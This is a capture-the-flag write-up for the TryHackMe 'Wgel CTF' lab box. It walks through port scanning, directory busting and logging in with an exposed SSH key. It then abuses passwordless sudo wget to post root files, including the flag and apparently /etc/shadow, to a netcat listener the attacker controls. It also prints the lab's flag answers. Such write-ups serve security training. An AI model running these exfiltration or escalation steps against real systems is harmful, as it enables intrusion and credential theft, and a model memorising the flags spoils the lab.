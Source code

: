 # Write Up for Try_Hack_Me box - [Wgel CTF](https://tryhackme.com/room/wgelctf)

Add details

> Pratyush Prakhar (5#1NC#4N) - 11/14/2020


## Services Enumeration

1. Ran a normal scan with nmap. 

**Output**

```bash
$ nmap -vv -sC -sV -oN nmap/main 10.10.99.204
Nmap scan report for 10.10.99.204
Host is up, received syn-ack (0.21s latency).
Scanned at 2023-08-15 22:23:24 EDT for 35s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

2. Services found open:
   1. *Port 22* - SSH - **OpenSSH 7.2p2**
   2. *Port 80* - HTTP - **Apache httpd 2.4.18**

3. Let's try to actively enumerate the path to gain more information.

## Web Reconnaissance

1. We go and check out the website hosted at the port 80.

![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/images/port_80.png)

2. Let's look out for the low hanging fruits.
    1. Page Source - we get a important note to a potential user - `jessie`.
    2. robots.txt
    3. Inspector

![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/images/page_source.png)

3. Let's start digging into the other resources that might be shared on the server. Let's go do some directory busting using a brand new tool - `feroxbuster`.

```bash
$ feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x html,js,sh -o port_80.txt -u http://10.10.99.204
```
\
![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/web/port_80.bash)
\

4. We find that there is a `server misconfiguration` in place allowing us to read a `ssh key` from the subdomain at `/sitemap/.ssh/id_rsa`. The key can be seen [here](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/web/sitemap/%2Essh/id_rsa)

![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/images/sitemap.png)
\
![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/images/ssh.png)
\

5. We can use this private key to get a initial hold on the box for jessie.

## SSH

1. SSHing into the box with jessie's RSA private key.

```bash
jessie@CorpOne:~$ whoami
jessie
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls -la
total 12
drwxr-xr-x  2 jessie jessie 4096 oct 26  2019 .
drwxr-xr-x 17 jessie jessie 4096 oct 26  2019 ..
-rw-rw-r--  1 jessie jessie   33 oct 26  2019 user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt 
************************************
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

2. We find the user's flag in the `/Document` directory. Enumeration is good. 

3. Let's explore for a path of Privilege Escalation. We find through `sudo -l` that the `wget` binary can be run as root without the passwd.

4. Looking for our friend [GTFObin](https://gtfobins.github.io/gtfobins/wget/). We will use the sudo escalation path first. Din't pan out.

```bash
jessie@CorpOne:~/Documents$ TF=$(mktemp)
jessie@CorpOne:~/Documents$ chmod +x $TF
jessie@CorpOne:~/Documents$ which bash
/bin/bash
jessie@CorpOne:~/Documents$ echo -e '#!/bin/sh\n/bin/bash 1>&0' >$TF
jessie@CorpOne:~/Documents$ echo $TF
/tmp/tmp.RvLb5xaiUo
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --use-askpass=$TF 0
/usr/bin/wget: unrecognized option '--use-askpass=/tmp/tmp.RvLb5xaiUo'
Usage: wget [OPTION]... [URL]...

Try `wget --help' for more options.
```

## PrivEsc

1. We find that the `file upload` functionality can allow us to send files over to our system. 
    1. Open up a netcat lister on our system to receive the file.
    2. Now we can send over the root files (flag, id_rsa keys) using the sudo permissions on the wget.

**Output**
```bash
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.13.5.5:1337/
--2023-08-16 06:00:16--  http://10.13.5.5:1337/
Connecting to 10.13.5.5:1337... connected.
HTTP request sent, awaiting response... 
No data received.
```
\
```bash
┌──(kali㉿kali)-[~/…/Try_Hack_Me/Wgel CTF/ssh/root]
└─$ nc -lnvvp 1337 > root.txt
listening on [any] 1337 ...
connect to [10.13.5.5] from (UNKNOWN) [10.10.99.204] 47542
^C sent 0, rcvd 244
                                                                                 
┌──(kali㉿kali)-[~/…/Try_Hack_Me/Wgel CTF/ssh/root]
└─$ ls
root.txt
                                                                                 
┌──(kali㉿kali)-[~/…/Try_Hack_Me/Wgel CTF/ssh/root]
└─$ cat root.txt          
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.13.5.5:1337
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

*********************************************
```

2. Use this to get additional files off the system.
    1. */etc/passwd* - [here](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/ssh/etc/passwd)
    2. */etc/shadow* - [here](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/ssh/etc/shadow)
    3. *linpeas* - [here](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/ssh/linpeas.out)


## Answers to resolve the box

1. User Flag - **057c67131c3d5e42dd5cd3075b198ff6**

2. Root flag - **b1b968b37519ad1daa6408188649263d**



**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)